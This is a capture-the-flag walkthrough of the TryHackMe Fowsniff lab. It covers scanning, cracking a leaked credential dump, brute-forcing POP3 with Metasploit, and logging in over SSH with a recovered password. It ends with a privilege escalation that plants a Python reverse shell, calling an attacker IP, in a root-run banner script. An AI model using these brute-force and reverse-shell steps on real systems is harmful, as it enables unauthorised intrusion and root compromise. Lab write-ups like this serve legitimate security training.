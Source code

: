 # [Fowsniff CTF](https://tryhackme.com/room/ctf)

> Hack this machine and get the flag. There are lots of hints along the way and is perfect for beginners!

## Scanning

scan the target

```
nmap -sS -sV -sC -T4 10.10.94.126
```

![image](https://github.com/lucthienphong1120/TryHackMe-CTF/assets/90561566/c1ed36f0-3f03-4a8c-abf7-3b3d7d118176)

there are 4 open ports (22 ssh, 80 http, 110 pop3, 143 imap)

## HTTP

view the webpage

![image](https://github.com/lucthienphong1120/TryHackMe-CTF/assets/90561566/0b7e7111-383e-48c6-8e2c-962ffce95232)

nothing on robots.txt

![image](https://github.com/lucthienphong1120/TryHackMe-CTF/assets/90561566/7278ec32-1326-4bec-8dee-bd7774013bd6)

## Enumeration

scan the directory of web server

```
gobuster dir -u http://10.10.94.126 -w /usr/share/wordlists/dirb/common.txt -t 30 -x php,txt
```

![image](https://github.com/lucthienphong1120/TryHackMe-CTF/assets/90561566/fc170ec0-6809-45f5-9f25-001a33ba7273)

check security.txt, it seem website has attacked by a hacker

![image](https://github.com/lucthienphong1120/TryHackMe-CTF/assets/90561566/4d45df4d-4867-406d-85aa-23db96f400dc)

search on google i found a twitter of attacker published the data of company

![image](https://github.com/lucthienphong1120/TryHackMe-CTF/assets/90561566/86b61e90-be9a-489a-ae16-48d94e6775ac)

click on pastebin, we have the credentials dump

![image](https://github.com/lucthienphong1120/TryHackMe-CTF/assets/90561566/d18c20e6-ef8a-4be9-9da3-af24216388c4)

i copied it

```
cut -d ":" -f2 dump.txt
```

![image](https://github.com/lucthienphong1120/TryHackMe-CTF/assets/90561566/a037c8bb-236e-48fb-a38f-95f22a7d1cd0)

crack it with crackstation

![image](https://github.com/lucthienphong1120/TryHackMe-CTF/assets/90561566/3c4abf86-2e9f-4584-8a2a-c8925591d571)

save it to 2 lists user.txt and pass.txt

brute force the POP3 service with metasploit

```
msfconsole
use auxiliary/scanner/pop3/pop3_login
set RHOSTS 10.10.94.126
set USER_FILE user.txt
set PASS_FILE pass.txt
set VERBOSE false
set STOP_ON_SUCCESS true
run
```

we got the real credential

![image](https://github.com/lucthienphong1120/TryHackMe-CTF/assets/90561566/9f883b62-5200-42dd-a326-3096a52f6b58)

## Exploitation

connect to pop3 server in port 110

```
telnet 10.10.94.126 110
user seina
pass scoobydoo2
```

![image](https://github.com/lucthienphong1120/TryHackMe-CTF/assets/90561566/66615f91-ca3e-4f2a-90b3-f77dfca6608c)

```
list
```

i see 2 messages

![image](https://github.com/lucthienphong1120/TryHackMe-CTF/assets/90561566/dca1402c-44cc-4422-847f-ecebf3a8ab5e)

```
retr 1
```

it real a tmp password for ssh `S1ck3nBluff+secureshell`

![image](https://github.com/lucthienphong1120/TryHackMe-CTF/assets/90561566/ddbb42ca-f9d8-434d-b571-4adcfb688bfb)

```
retr 2
```

baksteen says he will read the message later

![image](https://github.com/lucthienphong1120/TryHackMe-CTF/assets/90561566/80e3f86c-e443-4255-adb2-60d74f8abf50)

so, he didn't change the tmp password

```
ssh baksteen@10.10.94.126
S1ck3nBluff+secureshell
```

![image](https://github.com/lucthienphong1120/TryHackMe-CTF/assets/90561566/3f4660cf-7353-4f90-8b3a-3ef1932e342a)

## Privilege Escalation

the user is on an suspicious group call `users`, let find something interesting of that

```
find / -group users -type f 2>/dev/null
```

![image](https://github.com/lucthienphong1120/TryHackMe-CTF/assets/90561566/12c6c67e-c191-43a5-b5e1-c4030c7cd138)

it look like the ssh banner when we login

![image](https://github.com/lucthienphong1120/TryHackMe-CTF/assets/90561566/d3af80ca-773f-49f4-9578-dc11dab4e1b6)

you can check the /etc/update-motd.d/00-header run our banner as root

![image](https://github.com/lucthienphong1120/TryHackMe-CTF/assets/90561566/4e8b5be1-391f-41b5-8174-a6dc4fa088af)

insert a reverse shell to our file

```
python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((10.18.37.45,1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

exit our SSH session and set up a listener

```
nc -nlvp 1234
```

ssh again and we got our reverse shell

![image](https://github.com/lucthienphong1120/TryHackMe-CTF/assets/90561566/34625a3e-03b2-4c80-854a-e5db0aa323e7)
